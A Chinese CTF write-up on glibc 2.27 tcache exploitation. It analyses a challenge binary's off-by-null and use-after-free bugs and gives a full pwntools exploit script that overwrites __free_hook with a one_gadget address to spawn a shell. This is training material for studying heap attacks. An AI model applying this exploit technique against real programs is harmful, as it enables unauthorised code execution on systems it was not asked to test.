



# pwn:tcache学习
## 1.简介
libc2.27以后的版本中引入了tcache机制，使得堆的安全管理更加薄弱，在这里记录一下我在CTF比赛中学习到的tcache相关的知识和技巧。

## 2.例题
简要介绍以下这个二进制文件，形式为一个正常堆题，但使用的是libc2.27，因此考察的是对tcache进行利用

分析一下程序功能
#### add

函数的功能为申请一段0XF8的空间，并给读入指定的size和输入。
在这里，get_input()函数有一个off by null漏洞

#### delete

函数的功能为free一个指定的list，但由于其没有对指针清零，有一个UAF漏洞。同时，注意到index有负数越界的漏洞，但其实这个并没有很大的作用

#### modify

函数的功能为对指定的list进行修改，这里同样也有负数越界，但是很难在程序段和bss段中找到合适的地址

#### show

这里对指定的list进行打印，同样也有负数越界

#### 利用思路

##### leak思路
因为delete时没有清零，因此我们可以通过show一个free之后的chunk，从而leak出堆地址或libc地址

##### getshell思路
1.我们可以通过off by null漏洞进行unsorted bin attack，利用堆合并的时候检查PREV-IN-USE位，覆盖正在使用的chunk，从而构造UAF。

在这一步需要精心构造，此处需要使用7个tcache bin和3个unsorted bin

填满tcahce的链表,由于之前已经有一个，此处只需要填6个

构造合并的unsorted bin，使第3个bin变成的prev size变为0x200

利用off by null

重新调整chunk顺序，构造UAF

在构造UAF后，通过modify函数修改chunk使其能malloc到任意地址，这里，由于我们只有堆地址和libc地址，因此我们可以malloc到\__free_hook()中，然后再修改\_\_free\_hook()为one\_gadget地址，使得free(chunk)函数会执行system(chunk)，从而getshell

2.我们可以通过off_by_null覆盖tcache\_prethread结构体中0x100链表的地址，使其能够直接覆盖堆地址，从而进一步控堆，使其malloc到\_\_free\_hook()中,成功getshell,这一步暂时没有实现

#### 完整writeup

	from pwn import *
	
	r = process("./pwn")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
	elf = ELF("./pwn")
	
	def add(size,content):
	 r.recvuntil("command:\n")
	 r.sendline("1")
	 r.recvuntil("size:\n")
	 r.sendline(size)
	 r.recvuntil("content:\n")
	 r.sendline(content)
	
	def delete(index):
	 r.recvuntil("command:\n")
	 r.sendline("2")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def show(index):
	 r.recvuntil("command:\n")
	 r.sendline("3")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def modify(index,content):
	 r.recvuntil("command:\n")
	 r.sendline("4")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	 r.recvuntil("content:\n")
	 r.send(content)
	
	#chunk_addr = 0xF8
	#leak heap addr
	payload = "Hello"
	add("20",payload)#0
	add("20",payload)#1
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#4
	add("20",payload)#5
	
	delete(1)
	delete(2)
	delete(3)
	add("20","")
	modify(1,"A")
	show(1)
	
	heap_addr = u64(r.recv(6) + 2*'\x00') - 0x441
	success("heap_addr = %x",heap_addr)
	#base_addr = heap_addr - 0xc56000
	#success("guess_base_addr = %x", base_addr)
	
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#6
	add("20",payload)#7
	add("20",payload)#8
	add("20",payload)#9
	
	delete(1)
	delete(2)
	delete(3)
	delete(4)
	delete(5)
	delete(6)
	delete(7)
	delete(8)
	
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("20","")
	modify(8,"AAAAAAAA")
	show(8)
	r.recvuntil("AAAAAAAA")
	libc.address  = u64(r.recv(6) + 2*'\x00') - 0x3eb000 - 0xca0
	success("libc_addr = %x",libc.address)
	free_hook = p64(libc.symbols['__free_hook'])
	one_gadget = libc.address + 0x4f322
	
	#reconstruct
	delete(0)
	delete(5)
	delete(6)
	delete(7)
	delete(4)
	delete(3)
	delete(9)
	delete(2)
	delete(1)
	delete(8)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	for i in range(3):
	 add("20",str(i) + "- unsorted")
	
	for i in range(6):
	 delete(i)
	#free second unsorted
	delete(8)
	#unsorted
	delete(7)
	
	add("248","overflow_it")
	delete(6)
	
	delete(9)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	add("20","fill up")
	
	add("20", '9 - next')
	
	delete(1)
	delete(2)
	delete(0)
	delete(9)
	success("free_hook = %x", libc.symbols['__free_hook'])
	
	add("16", "haha") #0
	modify(0, p64(libc.symbols['__free_hook']))
	
	add("32", '/bin/sh') # 1
	add("16", "hh")
	modify(2,p64(one_gadget))
	
	# system("/bin/sh\x00")
	delete(1)
	
	r.interactive()
